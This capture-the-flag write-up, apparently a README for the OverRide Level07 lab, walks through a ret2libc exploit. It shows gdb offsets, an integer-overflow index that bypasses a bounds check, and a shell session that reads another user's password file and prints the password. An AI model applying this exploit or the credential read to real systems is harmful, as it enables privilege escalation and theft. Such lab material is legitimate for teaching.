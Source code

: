 [README](../README.md)
# Level07

Overall, the program is a simple interactive number storage service with commands to store and read numbers at specified indices. 

However, there are potential vulnerabilities, such as buffer overflow in cmd, and potential logical flaws in the store_number() function where the data array might be accessed out of bounds.

The program set argv and evp to 0. This prevents us from injecting shellcode via env or argv

## Get the main function eip
```
(gdb) info frame
Stack level 0, frame at 0xffffd720:
 eip = 0x804892b in main; saved eip 0xf7e45513
 Arglist at 0xffffd718, args:
 Locals at 0xffffd718, Previous frame's sp is 0xffffd720
 Saved registers:
  ebx at 0xffffd70c, ebp at 0xffffd718, esi at 0xffffd710, edi at 0xffffd714, eip at 0xffffd71c
```

## Get the buffer address
The buffer is only argument stored in the function it is located at eax address.
```
(gdb) info reg
eax            0xffffd554       -10924
ecx            0xffffd600       -10752
edx            0xffffd600       -10752
ebx            0xffffd554       -10924
esp            0xffffd530       0xffffd530
ebp            0xffffd718       0xffffd718
esi            0xffffd6ec       -10516
edi            0x8048d65        134516069
eip            0x804892b        0x804892b <main+520>
eflags         0x246    [ PF ZF IF ]
cs             0x23     35
ss             0x2b     43
ds             0x2b     43
es             0x2b     43
fs             0x0      0
gs             0x63     99
```

The distance between our buffer and eip is:
```
(gdb) print 0xffffd70c - 0xffffd544
$1 = 456
```

Our buffer is 456 bytes, or 114 integers

Theres is protection in the program which prevents us to access indices that are multiple of 3.
Since 114 is a multiple of 3


## Get the addresses
```
(gdb) p exit
$3 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) p system
$2 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) find &system, +99999999, "/bin/sh"
0xf7f897ec
```

- system() function (0xf7e6aed0 => 4159090384)
- exit() function (0xf7e5eb70 => 4159040368)
- /bin/sh string (0xf7f897ec => 4160264172)

## Craft the exploit
```
|-------------------|
|   Address of      |   <--- Overwrite with the address of system() array[114]
|     system()     |
|-------------------|
|   Address of      |   <--- Overwrite with the address of exit() array[115]
|     exit()       |
|-------------------|
|   Address of      |   <--- Overwrite with the address of "/bin/sh" array[116]
|   "/bin/sh"      |
|-------------------|
```


We need to set:
- the address of system at index 114
- the address of exit at index 115
- the address of "/bin/sh" at index 116


Let's try to use integer overflow and find a number that, when considering overflow, will lead us to the desired index 114, while also ensuring that the remainder of division by 3 is not zero.

max int = 2^32, index = (2^32 / 4) + 114 = 1073741938

```
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
